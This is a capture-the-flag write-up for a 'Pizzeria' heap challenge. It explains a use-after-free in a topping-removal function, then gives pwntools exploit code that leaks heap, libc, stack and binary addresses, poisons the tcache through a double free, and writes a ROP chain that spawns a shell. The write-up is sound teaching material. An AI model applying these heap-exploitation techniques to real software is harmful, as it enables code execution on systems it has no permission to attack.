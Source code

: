 # Pizzeria
```
 ____    _                        _ 
|  _ \  | |      __ _  _ __    __| |
| |_) | | |     / _` || '_ \  / _` |
|  _ <  | |___ | (_| || | | || (_| |
|_| \_\ |_____| \__,_||_| |_| \__,_|

 ____   _                        _        
|  _ \ (_) ____ ____  ___  _ __ (_)  __ _ 
| |_) || ||_  /|_  / / _ \| '__|| | / _` |
|  __/ | | / /  / / |  __/| |   | || (_| |
|_|    |_|/___|/___| \___||_|   |_| \__,_|

Choose one of the following options:
1. Add topping
2. Customize topping
3. Remove topping
4. Verify toppings
5. Bake Pizza
Enter your choice : 
```

This challenge is a pizza-topping picker. It contains a list of allowed toppings:
- Tomato, Onion, Capsicum, Corn, Mushroom, Pineapple, Olives, Double Cheese, Paneer, Chicken
And it lets you add a chosen quantity (up to 63) of any one of these toppings:
```
Enter your choice : 1

Which topping ?
Tomato
How much ?
8
Ok, adding Tomato
```

You can customize your toppings, which lets you edit its contents:
```
Enter your choice : 2

Which one to customize ?
Tomato
Enter new modified topping : San Marzano
New topping added successfully !
```

You can check the contents of a topping:
```
Enter your choice : 4

Which topping to verify ?
Tomato
San Marzano
```

And you can remove toppings:
```
Enter your choice : 3

Which topping to remove ?
Tomato
Tomato removed successfully !
```

Lastly, you can leave:
```
Enter your choice : 5

Baking ....
Here it is : 🍕
```
# How it works
"Toppings" are just strings allocated with `malloc`. Adding means allocating, removing means freeing, customizing means reading and verifying means writing. Leaving frees all the toppings and exits (doesn't return).
Each topping is a `char[]` with size `8*input_size`, and the max `input_size` is 63, so the biggest chunk you can get is 0x200.

Toppings are stored on the stack along with their sizes and with the list of allowed toppings, like this:
```c
int sizes[10];
char* allocated_toppings[10];
char* allowed_toppings[10];
```
# Vulnerability
Here's a simplified view of the `remove_topping` function:
```c
void remove_topping(char** allocated_toppings, char** allowed_toppings, int* sizes) {
    char chosen_topping[15];
    int idx;

	puts("Which topping to remove ?");
    fgets(chosen_topping, 15, stdin);
    chosen_topping[strcspn(chosen_topping, "\n")] = 0;
    idx = get_index(chosen_topping, allowed_toppings);
    free(allocated_toppings[idx]);
    sizes[idx] = 0;
    printf("%s removed successfully !\n", allowed_toppings[idx]);
}
```

It doesn't set `allocated_toppings[idx]` to `NULL`, meaning we can keep using that topping even though it's now a freed chunk. This is a UAF (User After Free).

The binary has all protections turned on and uses libc 2.35.
# Attack
We can allocate a chunk, free it, and then read it to leak the heap via a tcache forward pointer:
```python
io = conn()

malloc(io, toppings[0], 63)
free(io, toppings[0])
heap = u64(read(io, toppings[0]).ljust(8, b'\0')) << 12
aleak("heap", heap)
```

The biggest chunk size we can have is 0x200, which fits in the tcache but not in the fastbin, so if we fill the tcache and free another chunk, it'll end up in the unsorted bin giving us a libc leak:
```python
for i in range(7): malloc(io, toppings[i], 63)
malloc(io, toppings[7], 63)
malloc(io, toppings[8], 63) # barrier to avoid top chunk consolidation
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])

libc.address = u64(read(io, toppings[7]).ljust(8, b'\0')) - (libc.sym.main_arena+96)
aleak("libc", libc.address)
```

We can also do a double free, first filling the tcache, then triggering the double free, and then empty the tcache and allocate again, which will move the chunks from the fastbin to the tcache. This lets us have the same chunk both allocated and freed at the same time, letting us overwrite its tcache forward pointer and achieve arbitrary allocation.
I chose to allocate onto the tcache pointer for 0x200 chunks since its counter was 7 from when I leaked libc and that's enough allocations to finish the exploit:
```python
addr = (heap + 0x180) ^ ((heap + 0x1000) >> 12)

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
malloc(io, toppings[8], 10)
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])
free(io, toppings[7])

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
edit(io, toppings[7], p64(addr))
malloc(io, toppings[8], 10)
malloc(io, toppings[9], 10)
malloc(io, toppings[9], 10) # now we can modify this chunk with any address we want to allocate
```

Now I allocated a chunk onto `environ` to leak the stack:
```python
edit(io, toppings[9], p64(libc.sym.environ))
malloc(io, toppings[0], 63)
stack = u64(read(io, toppings[0]).ljust(8, b'\0'))
aleak("stack", stack)
```

And onto some pointer to the binary on the stack to leak the binary's base:
```python
pie_ret = stack - 0x188
edit(io, toppings[9], p64(pie_ret))
malloc(io, toppings[0], 63)
exe.address = u64(read(io, toppings[0]).ljust(8, b'\0')) - 0x23db
aleak("exe", exe.address)
```

I used one of the allowed toppings' strings to leak the binary's base, which fucked the next one up (it seems that malloc sets `*(chunk_addr+8)` to 0), so I had to fix it or the binary would crash:
```python
edit(io, toppings[0], flat(exe.address + 0x23db, exe.address + 0x23e2))
```

Both canaries and return pointers are at non-16 aligned addresses, so I couldn't just allocate onto them. I decided to allocate onto the list of allocated toppings to have infinite and truly arbitrary allocations:
```python
edit(io, toppings[9], p64(stack - 0x1d8))
malloc(io, toppings[8], 63)
```

The `bake_pizza` function doesn't actually `return`, it just calls `exit`, so I chose to allocate onto `customize_topping`'s return pointer, that way it would return right after my edit. And i overwrote it with a rop chain:
```python
edit(io, toppings[8], p64(stack-0x220))
rop = ROP([exe, libc])
rop.raw(rop.ret)
rop.system(libc.binsh())
edit(io, toppings[0], rop.chain())
```

And BOOM 💥 we've popped a shell!
Really nice challenge, I enjoyed it very much.